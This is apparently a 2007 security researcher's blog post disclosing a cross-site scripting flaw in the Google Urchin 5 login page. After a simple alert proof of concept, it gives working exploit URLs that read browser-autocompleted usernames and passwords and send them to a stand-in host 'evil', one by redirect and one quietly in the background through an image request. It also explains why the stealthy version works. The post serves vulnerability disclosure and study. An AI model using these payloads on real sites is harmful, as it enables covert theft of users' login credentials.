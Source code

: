 ```yaml
---
title: Google Urchin Password Theft Madness
author: adrian-pastor
date: Mon, 24 Sep 2007 14:14:49 GMT
template: this/views/post.jade
category: fucked
---
```


There is a trivially exploitable XSS vul on [Google Urchin Web Analytics 5](http://www.google.com/search?q=intext%3A%22Urchin+Web+Analytics+v5%22)'s login page. The vulnerability has been tested on versions `5.6.00r2`, `5.7.01`, `5.7.02` and `5.7.03` (latest). Previous versions are most likely to be affected as well. In case you didn't know, [Google Urchin](http://www.google.com/analytics/urchin_downloads.html) is the **install** version of Google Analytics.

I reported the issue to Google back on Jul 25 and was confirmed by their security team. They are now working on a fix. My original plan was to publish this info after a fix would be released. However, the issue [has also been found](http://ha.ckers.org/blog/20070823/xss-and-possible-information-disclosure-in-urchin/) by other folks about a month ago. As usual, the researcher loses credit when following the responsible disclosure route. Here is the boring POC:

	http://target/session.cgi?"><script>alert('XSS')</script><!--

You might have heard before that a XSS vulnerability on a login page is nasty. However most people think that the worst thing you can do is inject a form in order to perform a phishing attack. Although it's true this is a good example of what you can do, we can also do more advanced XSS phishing attacks that are even harder to detect. My two favorite tricks when finding a XSS vul on a login page are:

* **Overwriting** the login form's `action` attribute so that the victim's username and password are stolen when clicking on Login
* **Stealing** autocomplete data so that victim username and password are stolen _by simply clicking on our exploit URL_ (juicy!)

    Anyway, let's get to the point. I know that you're sick of XSS PoCs that only open alert boxes. So here is a exploit URL that will steal the victim's username and password by simply clicking on it. The only requirement is that the victim is using the "autocomplete passwords" feature, aka "Remember passwords for sites":

    http://target/session.cgi?"></form><script>setTimeout("location%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

    Using `location` is great for redirecting information to third-party sites. The problem is that the current window will change to show the evil site. Although this is great for demo purposes, it sucks when it comes to being stealth, since the victim can actually see his/her credentials being sent to another website on the address bar. Instead, we can dynamically create an image with JavaScript so _the credentials are stolen in the background:_

    http://target/session.cgi?"></form><script>h%3dnew%20Image();setTimeout("h.src%3d'http://evil/?usr%3d'%2bdocument.forms[0].user.value%2b'%26pwd%3d'%2bdocument.forms[0].pass.value;",1500);</script><!--

The following video shows the previous exploit in action. I don't think the quality of the video is that good, but oh well. Basically what it shows is how after visiting the exploit URL, the username and password are sent to google.com in the background. I use Paros in the video to demonstrate that the credentials do indeed get sent to google.com.

<div class="screen"><object width="425" height="350"><param name="movie" value="http://www.youtube.com/v/wCUovL9WLVQ"></param><param name="wmode" value="transparent"></param><embed src="http://www.youtube.com/v/wCUovL9WLVQ" type="application/x-shockwave-flash" wmode="transparent" width="425" height="350"></embed></object></div>

If you look at the code, you'll notice that we wait 1.5 secs using the _setTimeout()_ function before forwarding the credentials to the evil site. The reason for this is because we need to let the browser auto-complete the fields before performing the redirect. Otherwise the value of the username and password field would be blank by the time we steal them. 

_The PoC has been tested on the latest version of FF (2.0.0.7 at time of writing) and does _not_ work on IE 7, but _might_ work on IE 6. This doesn't mean you cannot do a auto-complete password theft attack on IE 7, it just needs a bit of more work! If you want to know the reason behind this difference is that IE 7 requires the user to first type or choose the username from the auto-complete drop-down menu, <em>before_ the password field is automatically filled.</em>
